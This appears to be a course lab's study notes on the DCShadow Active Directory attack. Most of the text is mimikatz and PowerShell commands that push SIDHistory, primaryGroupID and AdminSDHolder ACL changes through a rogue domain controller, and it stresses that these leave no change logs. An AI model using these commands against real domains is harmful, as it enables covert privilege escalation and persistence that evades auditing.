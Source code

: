 # DC Shadow

## General

- Temporarily register a new domain controller in the target domain
- Use it to "push" attributes like SIDHistory or SPN on the target object
- Does not leave any change logs for the modified object
- New DC is registered my modifying the Configuration container, SPNs of an existing computer object and some RPC services
- Since attributes are changed from a DC, there are no change logs on the actual DC for the target object
- Requires DA privileges by default
- Attacker machine must be part of root domain of the forest

## Exploitation

- Requires two mimikatz sessions
- One with SYSTEM privileges to start RPC servers and specifiy attributes we want to modify

```powershell
!+
!processtoken
lsadump::dcshadow /object:root572user /attribute:Description /value="Hello from DCShadow"
```

- Another with enough privileges (DA or required permissions) to push the values

```powershell
lsadump::dcshadow /push
```

### Minimal Permissions

- DCShadow can be used with minimal permissions by modifying the ACLs of the
  - domain object
    - `DS-Install-Replica` (Add/Remove Replica in Domain)
    - `DS-Replication-Manage`-Topology (Manage Replication Topology)
    - `DS-Replication-Syncrhonize` (Replication Synchronization)
  - sites object (and its children) in the Configuration container
    - `CreateChild` and `DeleteChild`
  - object of the computer which is registered as a temporary DC
    - `WriteProperty` (Not Write)
  - target object
    - `WriteProperty` (Not Write)
- We can use `Set-DCShadowPermissions` from Nishang for setting the permissions
- Then, we don't need the second mimikatz instance running as a DA to push the changes

```powershell
# Use DCShadow as user student572 to modify root572user object from machine mcorp-student572
Set-DCShadowPermissions -FakeDC mcorp-student572 -SAMAccountName root572user -Username student572 -Verbose
```

### Interesting Attack Vectors

#### Set SIDHistory of a User Account to Enterprise Admins or Domain Admins Group

- User will not show up as EA/DA when running queries like `net group "Enterprise Admins" /domain`

```powershell
lsadump::dcshadow /object:student572 /attribute:SIDHistory /value:S-1-5-21-280534878-1496970234-700767426-519
```

#### Set primaryGroupID of a User Account to Enterprise Admins or Domain Admins

- Use will show up as a member of the target group when running queries like `net group "Enterprise Admins" /domain`

```powershell
lsadump::dcshadow /object:student572 /attribute:primaryGroupID /value:519
```

#### Modify ntSecurityDescriptor for AdminSDHolder to Add Full Control for a User

```powershell
# Get the current ACL and copy it to clipboard
(New-Object System.DirectoryServices.DirectoryEntry(("LDAP://CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl | Set-Clipboard

# Append a FullControl ACE from above for SY/BA/DA
# Replace SY/BA/DA with our user's SID

# Get current user SID with PowerView
Get-DomainUser student572 | select objectsid

# Mimikatz command
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:$modifiedACEString
```

#### DCShadowception

- Run DCShadow from DCShadow
- Modifying permissions for objects so we dont need DA rights will also not leave any logs

```powershell
# Elevate to SYSTEM in mimikatz session
!+
!processtoken

# Get ACL for domain object
# ACEs to append:
# (OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)
# (OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)
# (OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)
(New-Object System.DirectoryServices.DirectoryEntry(("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl

# Mimikatz command
lsadump::dcshadow /stack /object:DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:$modifiedACEString

# Get ACL for computer object (attacker machine)
# ACE to append: (A;;WP;;;UserSID)
(New-Object System.DirectoryServices.DirectoryEntry(("LDAP://CN=mcorp-student572,CN=Computers,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl

# Mimikatz command
lsadump::dcshadow /stack /object:mcorp-student572$ /attribute:ntSecurityDescriptor /value:$modifiedACEString

# Get ACL for target user
# ACE to append: (A;;WP;;;UserSID)
(New-Object System.DirectoryServices.DirectoryEntry(("LDAP://CN=student572,CN=Users,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl

# Mimikatz command
lsadump::dcshadow /stack /object:student572 /attribute:ntSecurityDescriptor /value:$modifiedACEString

# Get ACL for Sites object in Configuration container
# ACE to append: (A;CI;CCDC;;;UserSID)
(New-Object System.DirectoryServices.DirectoryEntry(("LDAP://CN=Sites,CN=Configuration,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl

# Mimikatz command
lsadump::dcshadow /stack /object:CN=Sites,CN=Configuration,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:$modifiedACEString

# Start RPC server
lsadump::dcshadow

# Push changes from other session
lsadump::dcshadow /push
```
